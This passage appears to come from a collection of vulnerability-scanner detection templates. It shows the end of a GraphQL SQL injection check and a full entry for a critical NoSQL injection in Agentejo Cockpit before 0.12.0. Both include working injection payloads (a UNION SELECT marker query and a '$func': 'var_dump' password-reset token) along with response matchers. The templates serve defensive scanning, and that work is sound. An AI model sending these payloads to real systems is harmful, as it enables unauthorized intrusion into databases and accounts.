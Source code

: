 - Method - POST
- Method - POST

### URL

- {{BaseURL}}/graphql
  - {"query":"query SQLi($d: Duration!){globalP99:getLinearIntValues(metric: {name:\"all_p99\",id:\"') UNION SELECT 1,CONCAT('~','9999999999','~')-- \",}, duration: $d){values{value}}}","variables":{"d":{"start":"2021-11-11","end":"2021-11-12","step":"DAY"}}}

### Matchers

**Type - word**

- words
  1. Content-Type: application/json
- part - header

**Type - word**

- words
  1. UNION SELECT 1,CONCAT('~','9999999999','~')--
  2. Exception while fetching data
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

# Agentejo Cockpit \<0.12.0 - NoSQL Injection

## Description

- Agentejo Cockpit prior to 0.12.0 is vulnerable to NoSQL Injection via the newpassword method of the Auth controller, which is responsible for displaying the user password reset form.
- severity - critical
- tags - cve,cve2020,nosqli,sqli,cockpit,injection

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/auth/newpassword
  - {
    "token": {
    "$func": "var_dump"
    }
    }
